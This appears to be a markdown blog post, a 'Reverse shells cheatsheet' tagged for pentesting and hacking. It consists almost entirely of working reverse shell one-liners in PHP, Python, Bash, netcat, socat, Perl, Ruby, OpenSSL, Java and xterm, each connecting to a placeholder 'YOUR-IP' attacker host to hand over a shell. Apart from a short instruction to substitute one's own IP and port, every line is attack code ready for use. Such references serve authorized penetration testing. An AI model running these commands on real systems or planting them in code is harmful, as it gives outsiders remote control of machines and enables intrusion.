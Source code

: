 ```yaml
---
title: "Reverse shells cheatsheet"
excerpt_separator: "<!--more-->"
categories:
  - Cheatsheet
tags:
  - cheatsheet
  - pentest
  - hacking
---
```


### Reverse Shells

Replace "YOUR-IP" with your machines IP address ie: 192.168.1.1, also make sure to set your port too!

#### PHP :

```console
php -r '$sock=fsockopen("YOUR-IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Python :

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR-IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### Bash :

```console
bash -i >& /dev/tcp/YOUR-IP/8080 0>&1
```

#### Netcat :

```console
nc -e /bin/sh YOUR-IP 4444
```

#### Socat :

```console
socat tcp-connect:YOUR-IP:4444 system:/bin/sh
```

#### Perl :

```console
perl -e 'use Socket;$i="YOUR-IP";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Ruby :

```console
ruby -rsocket -e'f=TCPSocket.open("YOUR-IP",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### OpenSSL:

On your machine (to receive, not a normal TCP connection)
```console
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes # generate some arbitrary cert
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

On PWN'd client
```console
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect YOUR-IP:4444 > /tmp/s; rm /tmp/s
```

#### Java :

```console
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5< >/dev/tcp/YOUR-IP/4444;cat <& 5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm :

```console
xterm -display YOUR-IP:4444
```
